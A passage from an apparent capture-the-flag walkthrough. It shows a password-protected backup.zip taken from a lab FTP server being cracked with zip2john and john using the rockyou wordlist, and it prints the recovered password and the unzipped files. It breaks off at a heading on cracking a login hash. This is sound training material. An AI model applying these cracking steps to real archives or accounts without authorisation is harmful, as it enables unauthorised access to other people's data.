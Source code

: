 ```shell
2533 bytes received in 00:00 (57.66 KiB/s)
```

### Zip file password cracking

We got a `zip` file from the FTP server, we can verify it is a `zip` using the `file` command, to check the magic numbers.

```shell
❯ file backup.zip
backup.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
```

But the file is password protected, so we will try to crack it.

We can extract the hash with `zip2john`, saving it to a destination file:

```shell
❯ zip2john backup.zip > zip.hash
ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06 ts=5722 cs=5722 type=8
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A ts=989A cs=989a type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```

Once the hash is obtained, using `john` we will try to crack it using the wordlist `rockyou.txt`.

```shell
❯ john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)     
1g 0:00:00:00 DONE (2022-09-03 18:12) 50.00g/s 409600p/s 409600c/s 409600C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now we can `unzip` the compressed file.

```shell
❯ unzip backup.zip
Archive:  backup.zip
[backup.zip] index.php password: 
  inflating: index.php               
  inflating: style.css
```

We will `cat` the file `index.php` to search for possible username and password combinations, since it is the login page.

### Login password hash cracking
